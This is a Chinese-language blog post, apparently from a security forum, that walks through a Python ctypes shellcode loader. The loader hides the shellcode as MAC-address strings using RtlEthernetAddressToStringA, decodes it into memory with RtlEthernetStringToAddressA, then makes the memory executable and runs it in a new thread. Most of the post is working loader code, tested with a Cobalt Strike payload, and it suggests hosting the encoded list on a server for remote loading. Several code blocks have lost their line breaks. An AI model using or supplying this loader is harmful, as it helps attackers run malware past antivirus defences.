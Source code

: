 前言
==

前几天不是研究过uuid加载器吗，觉得这种加载方式很有意思，通过api函数将uuid转为二进制写入内存。

今就突发奇想有没有别的api函数有异曲同工之处，我就搁开发手册搜啊，搜to a binary搜了半天  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c44fa6eab56262f29aef659372b96bb9101b5af.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c44fa6eab56262f29aef659372b96bb9101b5af.png)

嘿还真找着了俩函数RtlEthernetStringToAddressA和RtlEthernetAddressToStringA

发现是操作MAC地址的，可以将mac字符串转换成二进制写入内存，所以就有了本文

MAC是啥
=====

MAC地址也叫物理地址、硬件地址，由网络设备制造商生产时烧录在网卡的EPROM一种闪存芯片，通常可以通过程序擦写。IP地址与MAC地址在计算机里都是以二进制表示的，IP地址是32位的，而MAC地址则是48位（6个字节）的 。

转换MAC
=====

### RtlEthernetAddressToStringA

该函数是ntdll.dll库的函数，可以把mac地址二进制格式转换为字符串表示

```php
\xFC\x48\x83\xE4\xF0\xE8 ====> FC-48-83-E4-F0-E8
```

<https://docs.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetaddresstostringa>

函数原型：

```php
NTSYSAPI PSTR RtlEthernetAddressToStringA(
  const DL_EUI48 *Addr,
  PSTR           S
);
```

使用此函数可以将二进制转换为mac格式

注意6个字节转换一个mac值，\\x00是一个字节

当剩余字节数不满6个可添加\\x00补充字节数，必须将全部的shellcode全部转化为mac值

在转换之前，需要一块内存用来接收mac值

由于我们转换成mac后，6个字节变成了17个字节，所以需内存大小自己算一下

```php
shellcode = b'\xfc\x48\x83\xe4...'
macmem = ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode)/6*17,0x3000,0x40)
```

然后每隔六个字节进行一次转换，此时内存地址递增17

```php
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)
```

这时可以看看内存中的值，是否是mac字符串形式  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1421e2688f4f5308310a7624818a0b67ef3f120a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1421e2688f4f5308310a7624818a0b67ef3f120a.png)

```php
a = ctypes.string_at(macmem,len(shellcode)*3-1)
print(a)
```

转换成mac字符串后，可以进一步转换成列表，或者复制下来放在服务器远程加载

```php
list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)
print(list)
```

MAC写入内存
=======

下面已经将shellcode转为了MAC，并放在列表中

```php
import ctypes

list = ['FC-48-83-E4-F0-E8', 'C8-00-00-00-41-51', '41-50-52-51-56-48', '31-D2-65-48-8B-52', '60-48-8B-52-18-48'......]
```

### RtlEthernetStringToAddressA

该函数是ntdll.dll库的函数，将MAC值从字符串形式转为二进制格式

```php
FC-48-83-E4-F0-E8 ====> \xFC\x48\x83\xE4\xF0\xE8
```

<https://docs.microsoft.com/en-us/windows/win32/api/ip2string/nf-ip2string-rtlethernetstringtoaddressa>

函数原型

```php
NTSYSAPI NTSTATUS RtlEthernetStringToAddressA(  PCSTR    S,  PCSTR    *Terminator,  DL_EUI48 *Addr);
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4177415abcd808d419c7eafaf32c972acd19327b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4177415abcd808d419c7eafaf32c972acd19327b.png)

一二参数传入mac值，第三参数传入接收的内存指针

```php
ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac,mac, ptr)
```

申请内存，注意申请内存的大小len(list)\*6有多少mac值，它的6倍就是需要的内存大小

```php
ptr = ctypes.windll.kernel32.VirtualAlloc(0,len(list)*6,0x3000,0x04)
```

通过RtlEthernetStringToAddressA函数，将mac值转为二进制写入内存

rwxpage是内存指针，表示从该指针位置写入

rwxpage+=6是控制指针的位置，每写入一个mac二进制需要将指针移动6个字节

```php
rwxpage = ptrfor i in range(len(list)):    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)    rwxpage += 6
```

然后创建线程运行即可

```php
ctypes.windll.kernel32.VirtualProtect(ptr, len(list)*6, 0x40, ctypes.byref(ctypes.c_long(1)))handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)ctypes.windll.kernel32.WaitForSingleO bject(handle, -1)
```

测试
==

使用py2.7环境，CS生成的64位shellcode  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4cba543208adda654d8febf92b83e2b702652a3e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4cba543208adda654d8febf92b83e2b702652a3e.png)  
成功上线，免杀没有测试，主要是研究姿势